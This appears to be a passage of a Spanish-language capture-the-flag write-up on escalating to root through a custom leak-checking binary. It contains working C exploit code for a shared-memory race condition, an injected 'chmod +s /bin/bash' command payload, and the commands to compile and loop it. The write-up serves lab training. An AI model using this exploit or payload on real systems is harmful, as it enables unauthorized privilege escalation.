	- 
- Verifica que el nombre de usuario no supere los 20 caracteres
	- 
### Consulta a la base de datos:

- Llama a fetch_hash_from_db para obtener el hash de la contraseña del usuario
- Si el usuario no existe, muestra "User not found in the database" y termina
	- 
### Verificación de hash filtrado:

- Llama a check_bcrypt_in_file para verificar si el hash está en "/opt/hash-checker/leaked_hashes.txt"
- Si no está filtrado, muestra "User is safe" y termina
- Si está filtrado, muestra "Password is leaked!"
	- 
### Proceso de notificación cuando hay filtración:

- Llama a write_to_shm pasando el hash como parámetro
	- 
- Esta función crea un segmento de memoria compartida y devuelve la clave
- Muestra "Using the shared memory 0x%X as temp location" con la clave
- Hace sleep(1) (espera 1 segundo)
- Llama a notify_user pasando las credenciales de la base de datos y la clave de memoria compartida
- Finalmente, llama a clear_shared_memory para limpiar la memoria compartida
	- 

Entre el write_to_him y el notify_user existe un intervalo de 1 segundo, y en medio de estas dos funciones existe una vulnerabilidad donde podemos inyectar comandos 

Para poder inyectar comando es necesario acceder al espacio de memoria compartida que genera la función de write_him 


La función genera una clave aleatoria con `rand() % 0xfffff` y usa esta clave para crear un segmento de memoria compartida de tamaño 0x400 bytes.

```c
iVar2 = rand();
__shmid = shmget(iVar2 % 0xfffff, 0x400, 0x3b6);
```

el cual podemos calcular y escribir en ella si se hace en bucle a través de ese segundo de espera entre las dos funciones 

## POC

Para inyectar el comando que nos permitirá cambiar de permisos a la bash será el siguiente, este script en C se ejecutara en forma de bucle para que al momento de usar el binario check_leak podamos escribir en la memoria compartida y así darle permisos SUID  a la bash

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
 
int main() {
    unsigned int v4 = (unsigned int)time(NULL);
    srand(v4);
 
   
    key_t key = rand() % 0xFFFFF;
 
   
    int shmid = shmget(key, 0x400, IPC_CREAT | 0666);
    if (shmid < 0) {
        perror("shmget failed");
        return 1;
    }
 

    char *share_memory = (char *)shmat(shmid, NULL, 0);
    if (share_memory == (char *)-1) {
        perror("shmat failed");
        return 1;
    }
 
   
    const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#";
    snprintf(share_memory,0x400,"%s", message ); 
 
  
    printf("Message in shared memory: %s\n", share_memory);
 
   
    if (shmdt(share_memory) == -1) {
        perror("shmdt failed");
        return 1;
    }
 
    return 0;
}
```

Que no sabes como ejecutar un archivo en C , no te preocupes es fácil, utilizaremos ``gcc``

En tu carpeta personal crea con nano un archivo .c en el cual pondrás el Poc 

 Una vez hecho eso usando gcc lo convertirás a un binario ejecutable

```bash 
gcc -o Name_Binario File.c
```



Y a continuación ejecútalo
de esta manera 

```bash
while true; do ./exploit; done
```

y en otra ventana ejecuta el check-leak.sh(Cabe aclarar que debe de ser un usario existente y creo que también este en la lista de contraseñas filtradas)

```bash
sudo ./check-leak.sh bob
```




Y felicidades eres Root , la verdad cuando tenemos binarios personalizados son un Joyita para vulnerarlos 

